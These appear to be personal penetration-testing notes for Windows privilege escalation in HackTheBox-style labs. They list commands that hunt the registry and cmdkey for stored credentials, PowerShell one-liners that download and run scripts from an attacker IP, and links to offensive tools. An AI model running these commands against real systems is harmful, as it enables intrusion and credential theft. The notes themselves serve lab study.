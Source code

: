 # privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```
whoami /priv
```

```
reg query HKLM /f pass /t REG_SZ /s
cmdkey /list
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```
iex(new-object net.webclient).downloadstring('http://10.10.14.28/shell.ps1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on `meterpreter`, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```

```
https://0xdf.gitlab.io/2019/09/07/htb-bastion.html#privesc-to-administrator

mremoteng privesc by cracking passwords in the mremoteng xml file..
```
